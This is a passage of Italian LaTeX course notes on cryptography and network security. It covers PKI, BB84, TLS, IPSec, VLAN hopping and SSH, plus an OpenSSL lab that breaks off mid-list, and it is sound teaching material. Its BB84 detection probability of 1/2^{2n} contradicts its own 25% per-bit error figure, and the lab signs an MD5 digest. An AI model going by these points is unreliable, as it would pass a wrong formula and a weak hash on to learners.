A livello aziendale, la gestione crittografica impone sfide di scalabilità: in una rete con crittografia puramente simmetrica composta da $N$ utenti, sarebbero necessarie $N(N-1)/2$ chiavi per permettere la comunicazione tra tutte le coppie possibili. Per standardizzare l'interoperabilità tra sistemi e gestire il ciclo di vita si adottano policy standardizzate, come OASIS KMIP.

\noindent\rule{\textwidth}{0.4pt}

\section{Distribuzione e Autenticità}
Nello scenario asimmetrico, le chiavi simmetriche non devono mai transitare in chiaro sulla rete. Il loro scambio avviene o manualmente (ormai impraticabile su larga scala) oppure tramite un'entità terza chiamata KDC (\textit{Key Distribution Center}), con cui ogni utente negozia una chiave per stabilire connessioni sicure con altri nodi.

Un'alternativa fondamentale per la distribuzione remota è lo scambio \textbf{Diffie-Hellman (DH)}, in cui due entità (Alice e Bob) stabiliscono una chiave segreta condivisa ($K$) scambiandosi esclusivamente parametri pubblici su un canale insicuro:
\begin{itemize}
	\item Alice calcola $A=g^{a} \bmod p$ e invia $g, p, A$.
	\item Bob calcola $B=g^{b} \bmod p$ e lo invia ad Alice.
	\item Entrambi ricavano autonomamente la chiave $K = g^{ab} \bmod p$.
\end{itemize}

\begin{itemize}
	\item \textbf{Il problema del Man-in-the-Middle:} Pur essendo inattaccabili da un avversario passivo (che si limita ad ascoltare i parametri), protocolli come DH o il semplice invio di chiavi pubbliche RSA sono vulnerabili ad attaccanti attivi se manca l'autenticazione iniziale. Un intruso può intercettare lo scambio, sostituire i valori con i propri e instaurare due sessioni cifrate distinte, facendo da passacarte silente. Si deduce che la vulnerabilità critica dei sistemi a chiave pubblica non è la riservatezza delle chiavi, ma la garanzia della loro \textbf{autenticità}.
\end{itemize}

\noindent\rule{\textwidth}{0.4pt}

\section{Certificazione e PKI (Public Key Infrastructure)}
Per impedire attacchi di sostituzione e vincolare in modo inequivocabile un'identità a una chiave pubblica, esistono due approcci principali:
\begin{enumerate}
	\item \textbf{Web of Trust:} Decentralizzato, dove l'autenticità di una chiave è testimoniata dalle firme di altri utenti ("garanti") del network. Presenta enormi limiti di scalabilità per organizzazioni complesse.
	\item \textbf{Modello Infrastrutturale (PKI):} Un'autorità centrale terza fidata (Certification Authority - CA) garantisce e documenta formalmente l'associazione tra utente e chiave pubblica.
\end{enumerate}

% ISTRUZIONI PER COMPILARE SENZA ERRORI: 
% Quando avrai l'immagine "Slide 17" togli il simbolo % all'inizio delle 5 righe qui sotto e metti il nome del file corretto.
\begin{figure}[H]
      \centering
      
\includegraphics[width=\textwidth]{screenshot011.png}
      \caption{Diagramma di flusso della Public Key Infrastructure che illustra le interazioni tra Users, Registration Authority, Directory e Certification Authority per l'emissione, distribuzione e revoca dei certificati}
 \end{figure}

\subsection{Certificati X.509v3}
La CA attesta l'identità rilasciando un documento standard, il certificato di chiave pubblica X.509 (versione 3). Al suo interno si trovano i seguenti campi essenziali:
\begin{itemize}
	\item Versione, Numero seriale e Periodo di Validità (Not before / Not after).
	\item L'identificativo dell'emittente (Issuer) e quello del soggetto certificato (Subject).
	\item L'informazione chiave, contenente la chiave pubblica del soggetto e i parametri del suo algoritmo.
	\item La \textbf{Firma digitale} apposta dalla Certification Authority su tutto il documento.
\end{itemize}

\subsection{Catena di Certificazione (Certificate Chain)}
Quando si riceve un messaggio firmato, il processo di verifica dell'autenticità è ricorsivo. Il destinatario valida la firma dell'utente usando la chiave pubblica della CA intermediaria indicata nel certificato. Ma per fidarsi del certificato di quest'ultima CA, ne verificherà a sua volta la firma. Si risale gerarchicamente questa \textit{Certificate Chain} fino a raggiungere il \textbf{Root Certificate}, ovvero un certificato "auto-firmato" (\textit{self-signed}) appartenente a una Root CA fondamentale, la cui identità è implicitamente considerata attendibile dal sistema.

% ISTRUZIONI PER COMPILARE SENZA ERRORI: 
% Quando avrai l'immagine "Slide 19" togli il simbolo % all'inizio delle 5 righe qui sotto e metti il nome del file corretto.
\begin{figure}[H]
      \centering
      
\includegraphics[width=1.1\textwidth]{screenshot012.png}
      \caption{Diagramma della Certificate Chain, che traccia le validazioni di firma partendo da un End Entity Certificate verso un Intermediate Certificate fino a giungere al Root Certificate auto-firmato}
 \end{figure}

\noindent\rule{\textwidth}{0.4pt}

\section{Quantum Key Distribution (BB84)}
La \textit{Quantum Key Distribution} (QKD) è un modello fisico-matematico che non fa affidamento sulla complessità computazionale, ma sfrutta i princìpi meccanici della fisica quantistica, lavorando sulla polarizzazione dei fotoni (Qubits) per garantire distribuzioni di chiavi intrinsecamente sicure.
Per l'assioma quantistico della misurazione, un qubit non può essere campionato, ispezionato o clonato senza conseguenze. Qualsiasi atto di misurazione altera inevitabilmente e in modo irreversibile lo stato del fotone, forzandolo a collassare deterministicamente su uno dei vettori appartenenti alla base del dispositivo di misurazione.

\subsection{Il Protocollo BB84 (Bennet \& Brassard, 1984)}
Serve a negoziare una chiave segreta a distanza ed è strutturato nei seguenti passaggi:
\begin{enumerate}
	\item \textbf{Invio (Alice):} Genera una sequenza casuale di bit (0 e 1) e sceglie per ogni bit una di due basi di misurazione a caso (la base Standard o la base Hadamard). Codifica i bit come fotoni polarizzati e li trasmette a Bob.
	\item \textbf{Ricezione (Bob):} Misura ogni fotone in ingresso dovendo, tuttavia, scegliere a sua volta una base del tutto casuale per ogni bit. Statisticamente avrà il 50\% di probabilità di indovinare la stessa base adottata da Alice e registrare il bit corretto.
	\item \textbf{Riconciliazione (Canale Classico):} Conclusa la ricezione, Alice e Bob comunicano pubblicamente su un canale tradizionale esclusivamente le \textit{basi} (es. "Hadamard, Standard, Standard...") utilizzate per ogni posizione, omettendo tassativamente i bit registrati. Mantenendo e confrontando solo i fotoni misurati con la base coincidente, generano una chiave condivisa segreta perfetta.
\end{enumerate}

\subsection{Probabilità di Rilevamento dell'Attaccante (Eve)}
Se un'attaccante passiva (Eve) tenta di intercettare il canale quantistico, si scontrerà col fatto che leggere il fotone equivale a misurarlo (e quindi ad alterarne irrimediabilmente lo stato se non indovina la base usata da Alice):
\begin{itemize}
	\item Eve ha solo il 50\% di probabilità di indovinare la base giusta e passare inosservata su quel singolo fotone.
	\item Per i fotoni letti con la base errata, Eve altera irrimediabilmente la polarizzazione originale del fotone che re-inoltrerà a Bob.
	\item Di conseguenza, quando Bob misurerà (correttamente, concordando con Alice) un fotone alterato da Eve, avrà a sua volta un 50\% di probabilità di ottenere un bit invertito.
	\item Si ottiene che, per ogni bit spiato da Eve, Bob registrerà una discrepanza del \textbf{25\%} rispetto al bit di partenza di Alice.
\end{itemize}

Confrontando alla fine un limitato e piccolo subset di $n$ bit campione estratti dalla chiave per fare un test di controllo, la probabilità che le manipolazioni di Eve passino inosservate ad Alice e Bob precipita rapidamente a $1/2^{2n}$. In caso di elevato tasso di errore anomalo, le parti acquisiscono matematicamente la certezza di essere sotto attacco, scartano le informazioni compromesse e interrompono lo scambio.

\chapter{Protezione delle comunicazioni e sicurezza di rete}
\label{ch:protezione-comunicazioni}

\section{Introduzione e panoramica}
La protezione delle comunicazioni mira a garantire riservatezza, integrit\`a, autenticit\`a e disponibilit\`a delle informazioni trasmesse su reti potenzialmente insicure. I meccanismi possono essere implementati a diversi livelli del modello OSI: collegamento dati, rete, trasporto e applicazione. In questo capitolo si sintetizzano i principali protocolli, le vulnerabilit\`a storiche e le contromisure operative pi\`u rilevanti.

\section{SSL e TLS}

\subsection{Concetti fondamentali}
Transport Layer Security (TLS), evoluzione di SSL, fornisce autenticazione delle entit\`a, riservatezza dei dati, integrit\`a e negoziazione iniziale di algoritmi e chiavi. TLS si colloca logicamente fra trasporto e applicazione, e viene spesso usato da protocolli come HTTPS senza richiedere modifiche al livello applicativo.

\subsection{Sessioni e connessioni}
Due entit\`a che comunicano tramite TLS instaurano prima una \emph{sessione}; una singola sessione pu\`o dar luogo a molte connessioni sicure contemporanee. TLS supporta il riutilizzo di sessioni gi\`a negoziate per ridurre il carico computazionale di nuove aperture.

\subsection{Handshake}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{screenshot013.png}
	\caption{Diagramma di sequenza del SSL Handshake Protocol tra Client e Server, con lo scambio dei pacchetti Hello, Certificate, Key Exchange e Finished}
\end{figure}

Lo handshake TLS ha tre obiettivi principali:
\begin{itemize}
	\item autenticare il server e, se richiesto, il client tramite certificati X.509;
	\item negoziare suite crittografiche;
	\item derivare chiavi di sessione condivise.
\end{itemize}
Lo scambio avviene prima della trasmissione dei dati applicativi. Il record protocol provvede poi a frammentare, cifrare e autenticare i dati secondo quanto negoziato.

\subsection{Record protocol}
Il TLS Record Protocol suddivide il flusso applicativo in record, li protegge con cifratura e integrit\`a, e li ricompone lato destinatario. La compressione \`e oggi sconsigliata, perch\`e ha storicamente aperto la strada a attacchi come CRIME, TIME e BREACH.

\subsection{Vulnerabilit\`a note}
Le vulnerabilit\`a pi\`u importanti da ricordare sono:
\begin{itemize}
	\item RC4: cifrario deprecato per bias statistici;
	\item BEAST: sfrutta CBC con IV prevedibile;
	\item Lucky Thirteen: side-channel temporale sulla verifica del MAC;
	\item POODLE: downgrade verso SSLv3 e padding oracle;
	\item CRIME, TIME, BREACH: attacchi legati alla compressione;
	\item Heartbleed: bug di implementazione in OpenSSL che consente leak di memoria;
	\item DROWN: sfrutta supporto a SSLv2 su server correlati per attaccare connessioni pi\`u moderne.
\end{itemize}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{screenshot014.png}
	\caption{Diagramma concettuale dell'attacco Heartbleed che mostra la richiesta di Heartbeat malevola con lunghezza falsificata per estrarre informazioni dalla memoria del server}
\end{figure}

\subsection{Mitigazioni principali}
Le contromisure pi\`u efficaci sono:
\begin{itemize}
	\item disabilitare SSLv2 e SSLv3;
	\item preferire TLSv1.2 o TLSv1.3;
	\item usare suite moderne con AEAD, come AES-GCM o ChaCha20-Poly1305;
	\item aggiornare tempestivamente le librerie crittografiche;
	\item applicare HSTS dove opportuno;
	\item adottare Certificate Transparency per il controllo dei certificati emessi.
\end{itemize}

\subsection{HTTPS e attacchi applicativi}
Anche con TLS attivo esistono attacchi che sfruttano il contesto applicativo: occultamento della barra degli indirizzi, phishing con domini omografi, certificati falsi o CA inserite nel certificate store dell'utente. Le difese includono HSTS, corretta gestione delle CA e attenzione ai warning del browser.

\section{VPN e IPSec}

\subsection{VPN}
Una VPN fornisce canali virtualmente privati su reti pubbliche. Gli scenari tipici sono:
\begin{itemize}
	\item host-host;
	\item host-net;
	\item net-net.
\end{itemize}

\subsection{IPSec}
IPSec non \`e un protocollo singolo, ma un framework che include algoritmi di sicurezza, negoziazione e gestione chiavi. I suoi componenti principali sono:
\begin{itemize}
	\item Authentication Header (AH), per autenticazione e integrit\`a;
	\item Encapsulating Security Payload (ESP), per riservatezza e opzionalmente autenticazione;
	\item IKEv2, per la negoziazione delle chiavi;
	\item Security Association (SA), per descrivere un'associazione unidirezionale di sicurezza.
\end{itemize}

\subsection{Transport mode e tunnel mode}
\begin{description}
	\item[Transport mode:] protegge il payload del pacchetto IP, lasciando visibile l'header IP originale.
	\item[Tunnel mode:] incapsula l'intero pacchetto IP in un nuovo pacchetto IP esterno.
\end{description}
Il transport mode \`e adatto a comunicazioni end-to-end; il tunnel mode \`e pi\`u tipico di VPN site-to-site.

\subsection{AH ed ESP}
AH garantisce autenticazione e integrit\`a anche contro i replay, ma non riservatezza. ESP fornisce principalmente cifratura del payload e pu\`o aggiungere autenticazione. In presenza di NAT, AH pu\`o risultare problematico perch\'e autentica anche campi dell'header IP che il NAT modifica.

\subsection{Considerazioni comparative}
TLS \`e pi\`u specifico del dominio applicativo, ma pi\`u semplice da integrare; IPSec \`e pi\`u generale e trasparente per le applicazioni, ma spesso pi\`u complesso da interoperare correttamente fra implementazioni diverse.

\section{OpenVPN}
OpenVPN implementa in user space concetti simili a IPSec, ma usa TLS come canale di controllo e interfacce virtuali come \texttt{tun} o \texttt{tap}. La modalit\`a \texttt{tun} opera a livello 3, mentre \texttt{tap} si avvicina al livello 2.

\subsection{Tunnel mode con OpenVPN}
Nel tunnel mode, OpenVPN incapsula il traffico verso il peer remoto, lo trasporta su una rete insicura e lo decapsula sul lato di arrivo. Il kernel vede l'interfaccia virtuale come una normale interfaccia di rete.

[[QUI IMMAGINE SLIDE: schema del tunnel OpenVPN con client, gateway, interfaccia tun e decapsulazione]]

\subsection{Transport mode con OpenVPN}
Nel transport mode, il traffico viene inoltrato in modo da far sembrare la macchina remota parte della stessa rete locale. Questa modalit\`a \`e tipica quando si vuole estendere il dominio di livello 2 o simulare una connessione fisica diretta.

\section{Sicurezza a livello data link}

\subsection{VLAN}
Le VLAN separano logicamente il traffico su una stessa infrastruttura fisica. Con il tagging 802.1Q, i frame vengono marcati in modo da appartenere a una specifica VLAN.

\begin{itemize}
	\item Access port: appartiene a una sola VLAN, di norma senza tagging.
	\item Trunk port: trasporta pi\`u VLAN, usando il tagging per distinguerle.
\end{itemize}

\subsection{VLAN hopping}
Due tecniche importanti sono:
\begin{itemize}
	\item switched spoofing, in cui l'attaccante fa credere alla vittima di essere uno switch;
	\item double tagging, in cui un frame con doppio tag viene inoltrato in modo da raggiungere una VLAN diversa da quella attesa.
\end{itemize}
Le mitigazioni includono disabilitare DTP, configurare con attenzione le VLAN native e limitare il trunking alle sole porte necessarie.

\section{SOCKS5 e Tor}

\subsection{SOCKS5}
SOCKS5 \`e un circuit-level gateway che inoltra connessioni TCP o UDP a nome del client. \`E utile quando si vuole separare la scelta del percorso di rete dal protocollo applicativo.

\subsection{Tor}
Tor costruisce percorsi a cipolla attraverso relay successivi. Ogni relay conosce solo i nodi adiacenti, riducendo la visibilit\`a della rete. Tuttavia, l'exit node vede il traffico in chiaro se l'applicazione non cifra a sua volta i dati.

\subsection{Limiti e contromisure}
Le debolezze principali riguardano correlazione di traffico, leak applicativi e uso di exit node non fidati. Le contromisure pi\`u importanti sono l'uso di HTTPS sopra Tor, l'uso di bridges quando necessario e la riduzione dei leak a livello applicativo.

\section{Secure Shell}

\subsection{Obiettivi di SSH}
SSH sostituisce protocolli insicuri come TELNET fornendo autenticazione dell'host, canale cifrato e autenticazione dell'utente. Le fasi essenziali sono:
\begin{enumerate}
	\item negoziazione delle cipher suite;
	\item autenticazione dell'host remoto;
	\item creazione del canale cifrato;
	\item autenticazione dell'utente.
\end{enumerate}

\subsection{Autenticazione dell'host}
Alla prima connessione, la chiave pubblica dell'host deve essere verificata con un canale out-of-band. Le chiavi note vengono memorizzate in \texttt{\~/.ssh/known\_hosts}.

\subsection{Autenticazione dell'utente}
Con chiave pubblica, il flusso tipico \`e:
\begin{verbatim}
	ssh-keygen -t rsa -b 2048
	ssh-copy-id -i ~/.ssh/id_rsa.pub user@remote
\end{verbatim}
La chiave privata deve essere protetta con permessi rigidi e, se possibile, con passphrase.

\subsection{Tunnelling SSH}
SSH supporta diversi tipi di forwarding:
\begin{itemize}
	\item \texttt{-L}: local forwarding, dalla porta locale verso una destinazione remota;
	\item \texttt{-R}: remote forwarding, apre una porta sul server remoto verso un servizio locale;
	\item \texttt{-D}: dynamic forwarding, crea un proxy SOCKS locale;
	\item \texttt{-J}: jump host, consente un accesso tramite uno o pi\`u host intermedi.
\end{itemize}

\begin{verbatim}
	ssh -L [bind_address:]port:host:hostport user@gateway
	ssh -R remote_port:host:hostport user@gateway
	ssh -D [bind_address:]port user@gateway
	ssh -J user@jumphost target
\end{verbatim}

\subsection{Buone pratiche}
Disabilitare l'autenticazione con password quando possibile, limitare il forwarding, restringere gli utenti autorizzati e proteggere le chiavi private sono misure fondamentali per un uso sicuro di SSH.

\section{Contromisure operative}

\subsection{Hardening}
Le misure operative pi\`u importanti sono:
\begin{itemize}
	\item disabilitare protocolli obsoleti;
	\item preferire suite moderne;
	\item aggiornare le librerie crittografiche;
	\item segmentare la rete con VLAN e firewall stateful;
	\item usare VPN e SSH con configurazioni restrittive;
	\item monitorare certificati, log e configurazioni.
\end{itemize}

\subsection{Difesa in profondit\`a}
La sicurezza delle comunicazioni non dipende da un singolo controllo, ma da pi\`u livelli coordinati: cifratura, autenticazione, segmentazione, logging, monitoraggio e risposta agli incidenti.

\section{Tabelle di confronto}

\subsection{TLS e IPSec}
\begin{table}[h]
	\centering
	\caption{Confronto sintetico tra TLS e IPSec}
	\begin{tabular}{|p{3.5cm}|p{5.5cm}|p{5.5cm}|}
		\hline
		Caratteristica & TLS/HTTPS & IPSec \\
		\hline
		Livello OSI & Trasporto / applicazione & Rete \\
		\hline
		Trasparenza alle applicazioni & No, richiede integrazione & S\`i, \`e trasparente \\
		\hline
		Uso tipico & Web, API, client-server & Site-to-site VPN, traffico infrastrutturale \\
		\hline
		Interoperabilit\`a & Molto ampia & Dipende dalle implementazioni \\
		\hline
		Gestione chiavi & Certificati X.509, CA & SA, IKEv2 \\
		\hline
	\end{tabular}
\end{table}

\subsection{Vulnerabilit\`a TLS}
\begin{table}[h]
	\centering
	\caption{Principali vulnerabilit\`a TLS e mitigazioni}
	\begin{tabular}{|p{3.5cm}|p{5cm}|p{5cm}|}
		\hline
		Vulnerabilit\`a & Impatto & Mitigazione \\
		\hline
		RC4 & Cifrario indebolito & Disabilitare RC4 \\
		\hline
		BEAST & Attacco su CBC con IV prevedibile & Usare TLS moderno e AEAD \\
		\hline
		Lucky Thirteen & Side-channel temporale & Implementazioni resistenti, AEAD \\
		\hline
		POODLE & Downgrade verso SSLv3 & Disabilitare SSLv3 \\
		\hline
		Heartbleed & Leak di memoria & Aggiornare OpenSSL e ruotare le chiavi \\
		\hline
		DROWN & Uso di SSLv2 su server correlati & Disabilitare SSLv2 \\
		\hline
		CRIME/BREACH & Leak tramite compressione & Evitare compressione su dati sensibili \\
		\hline
	\end{tabular}
\end{table}

\subsection{Note finali sui comandi}
Esempi utili da ricordare:
\begin{verbatim}
	openssl s_client -connect example.com:443 -servername example.com
	ssh -vvv user@host
	ssh -Q cipher
\end{verbatim}

\section{Conclusione}
La protezione delle comunicazioni richiede l'uso corretto di protocolli moderni, attenzione alle implementazioni e hardening operativo continuo. Le difese devono essere stratificate: cifratura dei canali, segmentazione della rete, autenticazione forte, logging e monitoraggio. Per lo studio d'esame sono particolarmente importanti TLS, IPSec, VLAN, Tor, SSH e le vulnerabilit\`a storiche pi\`u note con le relative mitigazioni.

\chapter{OpenSSL e Gestione PKI (Laboratorio)}

\section{Introduzione a OpenSSL}
OpenSSL è una libreria C multipiattaforma che implementa i principali protocolli crittografici, tra cui il Secure Socket Layer (SSL/TLS), algoritmi simmetrici, asimmetrici, funzioni di hash e la gestione delle firme digitali. 

Per verificare la versione installata e ottenere la lista dei comandi (suddivisi in \textit{Standard}, \textit{Message Digest} e \textit{Cipher commands}), si utilizzano:
\begin{lstlisting}[language=bash]
	openssl version
	openssl help
\end{lstlisting}

\subsection{Comandi Principali}
\begin{itemize}
	\item \textbf{enc}: Cifratura e decifratura con algoritmi simmetrici.
	\item \textbf{genrsa} / \textbf{rsa}: Generazione e manipolazione di chiavi asimmetriche RSA.
	\item \textbf{rsautl}: Cifratura, decifratura, firma e verifica con chiavi asimmetriche.
	\item \textbf{dgst}: Calcolo dell'impronta (digest) tramite funzioni di hash.
	\item \textbf{ca} / \textbf{x509} / \textbf{verify}: Creazione di una Certification Authority, manipolazione e verifica di certificati X.509.
\end{itemize}

\noindent\rule{\textwidth}{0.4pt}

\section{Crittografia Simmetrica}
Il comando \texttt{enc} permette di cifrare e decifrare file utilizzando vari algoritmi (verificabili con \texttt{openssl enc -ciphers}).\\
OpenSSL supporta anche la transcodifica in \textbf{Base64} (che è una codifica, \textit{non} una cifratura, poiché reversibile senza chiave):
\begin{lstlisting}[language=bash]
	openssl enc -base64 -in file_in.txt
\end{lstlisting}

\subsection{Cifratura e Decifratura (AES-256-CBC)}
Per proteggere effettivamente un file, si utilizza un algoritmo robusto come AES a 256 bit in modalità CBC.
\begin{lstlisting}[language=bash]
	# Cifratura
	openssl enc -aes-256-cbc -md sha512 -pbkdf2 -iter 100000 -salt -in testo.txt -out cifrato.bin
	
	# Decifratura (aggiunta del flag -d)
	openssl enc -aes-256-cbc -md sha512 -pbkdf2 -iter 100000 -salt -d -in cifrato.bin -out testo_chiaro.txt
\end{lstlisting}

\textbf{Spiegazione dei parametri essenziali:}
\begin{itemize}
	\item \texttt{-md sha512}: Specifica l'algoritmo di hashing (famiglia SHA-2) utilizzato nel processo.
	\item \texttt{-pbkdf2} e \texttt{-iter 100000}: Utilizza la funzione \textit{Password-Based Key Derivation Function 2} eseguendo centomila iterazioni. Aumentare il numero di iterazioni rallenta significativamente i tentativi di attacco a forza bruta.
\end{itemize}
\textit{(Nota: è possibile passare la password inline con \texttt{-pass pass:"miapassword"}, ma è fortemente sconsigliato per motivi di sicurezza).}

\noindent\rule{\textwidth}{0.4pt}

\section{Crittografia Asimmetrica (RSA)}

\subsection{Generazione e Gestione delle Chiavi}
La lunghezza minima per considerare una chiave RSA sicura è di 2048 bit. La generazione crea un file \texttt{.pem} che contiene \textbf{sia la chiave privata che quella pubblica}.
\begin{lstlisting}[language=bash]
	# 1. Generazione della coppia di chiavi
	openssl genrsa -out chiave.pem 2048
	
	# 2. Ispezione dei dettagli della chiave (modulo, esponenti, senza stampare il Base64)
	openssl rsa -in chiave.pem -text -noout
	
	# 3. Protezione della chiave privata (cifratura del file PEM con AES)
	openssl rsa -in chiave.pem -aes-256-cbc -out enc_chiave.pem
	
	# 4. Estrazione della chiave pubblica
	openssl rsa -in chiave.pem -pubout -out pub_chiave.pem
\end{lstlisting}

\subsection{Cifratura e Decifratura asimmetrica}
\begin{lstlisting}[language=bash]
	# Cifratura (usa la chiave pubblica del destinatario)
	openssl rsautl -encrypt -in testo.txt -inkey pub_chiave.pem -pubin -out cifrato_rsa.bin
	
	# Decifratura (usa la propria chiave privata)
	openssl rsautl -decrypt -in cifrato_rsa.bin -inkey chiave.pem -out originale.txt
\end{lstlisting}

\noindent\rule{\textwidth}{0.4pt}

\section{Firma Digitale}
Poiché gli algoritmi a chiave pubblica sono troppo onerosi per firmare direttamente file di grandi dimensioni, la firma digitale si applica al \textbf{digest} (hash) del file originale.

\begin{lstlisting}[language=bash]
	# 1. Creazione dell'Hash (es. tramite MD5)
	openssl dgst -md5 -out digestfile testo.txt
	
	# 2. Firma dell'Hash (utilizzando la propria chiave privata)
	openssl rsautl -sign -in digestfile -out digest_firmato -inkey chiave.pem
	
	# 3. Verifica della Firma da parte del destinatario
	openssl rsautl -verify -in digest_firmato -out digest_verifica -inkey chiave.pem
	
	# 4. Confronto per attestare l'integrita
	diff digestfile digest_verifica
\end{lstlisting}
\textit{(Se il comando \texttt{diff} non produce output, i file sono identici e la firma è valida).}

\noindent\rule{\textwidth}{0.4pt}

\section{Configurazione di una PKI (Public Key Infrastructure) Locale}
La PKI risolve il problema dell'attacco \textit{Man-in-the-Middle} fornendo un'entità centrale fidata (CA - Certification Authority) che certifica l'identità associata a una chiave pubblica. Questo approccio si contrappone al \textit{Web of Trust} decentralizzato tipico di PGP.\\
Il file di configurazione principale per la CA su Linux si trova tipicamente in \texttt{/etc/ssl/openssl.cnf}.

\subsection{Step 1: Creazione della Root CA}
\begin{lstlisting}[language=bash]
	# Generazione della chiave privata per la CA
	openssl genrsa -out rootCA.key 2048
	
	# Creazione del certificato auto-firmato (Root Certificate) valido 10 anni
	openssl req -x509 -new -key rootCA.key -days 3650 -out rootCA.pem
	
	# (Opzionale) Esportazione in formato DER per l'importazione nei browser
	openssl x509 -in rootCA.pem -outform DER -out cacert.der
\end{lstlisting}

\subsection{Step 2: Generazione e Firma di un Certificato Client}
Affinché un utente o un server ottenga un certificato valido, deve generare una chiave, creare una CSR (\textit{Certificate Signing Request}) e farla firmare alla CA.
\begin{lstlisting}[language=bash]
	# 1. Generazione della chiave dell'utente (client1)
	openssl genrsa -out client1.key 2048
	
	# 2. Creazione della richiesta di certificato (CSR)
	# Per lo standard Web PKI, andrebbe aggiunta l'estensione DNS: -addext "subjectAltName = DNS:www.dominio.com"
	openssl req -new -key client1.key -out client1.csr
	
	# 3. La CA firma la CSR generando il certificato finale valido 1 anno
	openssl x509 -req -days 365 -CA rootCA.pem -CAkey rootCA.key -CAcreateserial -copy_extensions copy -in client1.csr -out client1.pem
\end{lstlisting}

\subsection{Step 3: Verifica e Deploy su Apache}
Per validare matematicamente l'autenticità del certificato client appena emesso, confrontandolo con quello della CA:
\begin{lstlisting}[language=bash]
	openssl verify -verbose -CAfile rootCA.pem client1.pem
\end{lstlisting}
Per applicare i certificati su un server web \textbf{Apache}:
\begin{enumerate}
	\item Importare \texttt{cacert.der} o \texttt{rootCA.pem} nel \textit{certificate store} del browser come CA fidata.
	\item Entrare nella configurazione di Apache: \texttt{cd /etc/apache2/sites-enabled}.
